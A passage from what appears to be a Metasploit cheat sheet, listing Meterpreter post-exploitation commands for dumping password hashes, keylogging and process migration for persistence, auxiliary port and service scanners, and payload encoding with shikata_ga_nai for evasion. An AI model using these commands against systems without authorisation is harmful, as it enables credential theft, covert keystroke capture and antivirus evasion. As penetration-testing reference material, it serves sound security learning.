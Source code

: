   ```bash
  hashdump
  ```
- **Keylogging:**
  ```bash
  keyscan_start
  keyscan_stop
  keyscan_dump
  ```
- **Session Migration (to stay persistent):**
  ```bash
  migrate <pid>
  ```

---

### **8. Auxiliary Modules for Scanning and Enumeration**

- **Scanning:**
  - Portscan (TCP):
    ```bash
    use auxiliary/scanner/portscan/tcp
    ```
  - SMB Scan:
    ```bash
    use auxiliary/scanner/smb/smb_version
    ```
  - FTP Version Scan:
    ```bash
    use auxiliary/scanner/ftp/ftp_version
    ```
  - HTTP Banner Grabber:
    ```bash
    use auxiliary/scanner/http/http_version
    ```

---

### **9. Encoders and Evasion**

- **Encode Payload:**
  ```bash
  use encoder/x86/shikata_ga_nai
  ```
  - **Setting Encoder Options:**
    ```bash
    set ENCODER <encoder_type>
    ```
- **Check Payload Validity:**
  ```bash
  check
  ```

---
